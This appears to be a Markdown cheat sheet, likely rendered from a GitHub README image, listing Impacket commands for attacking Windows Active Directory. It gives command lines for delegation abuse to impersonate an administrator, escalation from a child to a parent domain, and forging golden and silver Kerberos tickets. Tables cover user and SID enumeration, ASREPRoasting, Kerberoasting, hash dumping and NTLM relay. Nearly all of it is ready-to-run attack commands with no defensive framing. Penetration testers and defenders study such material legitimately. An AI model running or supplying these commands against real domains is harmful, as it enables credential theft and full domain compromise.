 ### ⬆️ Privilege Escalation
```bash
# Add Computer + RBCD
python3 addcomputer.py domain.com/user:pass -computer-name EVIL$
python3 rbcd.py domain.com/user:pass -action write -delegate-from EVIL$ -delegate-to TARGET$
python3 getST.py domain.com/EVIL$:pass -spn cifs/TARGET$ -impersonate administrator

# Child to Parent Domain
python3 raiseChild.py child.domain.com/admin:pass
```

### 🎫 Kerberos Attacks
```bash
# Request TGT
python3 getTGT.py domain.com/user:pass -dc-ip DC_IP

# Request Service Ticket
python3 getST.py domain.com/user:pass -spn service/target

# Golden Ticket
python3 ticketer.py -nthash krbtgt_hash -domain-sid SID -domain domain.com admin

# Silver Ticket
python3 ticketer.py -nthash service_hash -spn service/target -domain domain.com admin
```

## Quick Tool Reference

### 📊 Enumeration
| Tool | Purpose | Example |
|------|---------|---------|
| `GetADUsers.py` | User enumeration | `python3 GetADUsers.py domain.com/user:pass -all` |
| `GetADComputers.py` | Computer enumeration | `python3 GetADComputers.py domain.com/user:pass -all` |
| `rpcdump.py` | RPC endpoint enum | `python3 rpcdump.py domain.com/user:pass@target` |
| `samrdump.py` | SAM database enum | `python3 samrdump.py domain.com/user:pass@target` |
| `lookupsid.py` | SID enumeration | `python3 lookupsid.py domain.com/user:pass@target` |

### 🔑 Credential Attacks
| Tool | Purpose | Hashcat Mode |
|------|---------|--------------|
| `GetNPUsers.py` | ASREPRoast | `-m 18200` |
| `GetUserSPNs.py` | Kerberoasting | `-m 13100` |
| `secretsdump.py` | Hash extraction | N/A |
| `ntlmrelayx.py` | NTLM relay | N/A |
